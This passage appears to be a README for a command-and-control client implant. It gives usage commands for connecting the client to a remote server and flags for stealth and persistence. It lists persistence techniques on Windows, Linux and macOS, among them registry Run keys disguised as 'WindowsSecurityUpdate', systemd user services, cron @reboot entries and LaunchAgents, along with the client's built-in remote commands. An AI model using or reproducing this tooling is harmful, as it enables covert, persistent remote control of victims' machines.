 ```bash
# Connect to default server (127.0.0.1:4444)
./output/c2_client

# Connect to specific server
./output/c2_client --server 192.168.1.100 --port 8080

# Debug mode (disable stealth)
./output/c2_client --server 192.168.1.100 --no-stealth --no-persistence

# Custom timing
./output/c2_client --server 192.168.1.100 --reconnect-delay 60 --heartbeat-interval 120
```

### **Client Command Line Options**

```bash
Options:
  -s, --server <SERVER>                    Server IP address [default: 127.0.0.1]
  -p, --port <PORT>                       Server port [default: 4444]
      --no-persistence                    Disable persistence
      --no-stealth                       Disable stealth mode
      --reconnect-delay <RECONNECT_DELAY> Reconnect delay in seconds [default: 30]
      --heartbeat-interval <HEARTBEAT_INTERVAL> Heartbeat interval in seconds [default: 60]
  -h, --help                             Print help
  -V, --version                          Print version
```

## 🛠️ Advanced Features

### **Persistence Mechanisms**

#### **Windows:**
- Registry Run keys (HKCU\Software\Microsoft\Windows\CurrentVersion\Run)
- Multiple registry locations for redundancy
- Disguised as "WindowsSecurityUpdate"

#### **Linux:**
- Systemd user services (~/.config/systemd/user/)
- Crontab entries (@reboot)
- XDG autostart entries (~/.config/autostart/)

#### **macOS:**
- LaunchAgents (~/Library/LaunchAgents/)
- Login items through osascript

### **Built-in Commands**

The client recognizes special commands:

```bash
!info      # Display client system information
!ping      # Simple connectivity test (returns "pong")
!uptime    # Show system uptime
!exit      # Terminate client (use with caution)
```
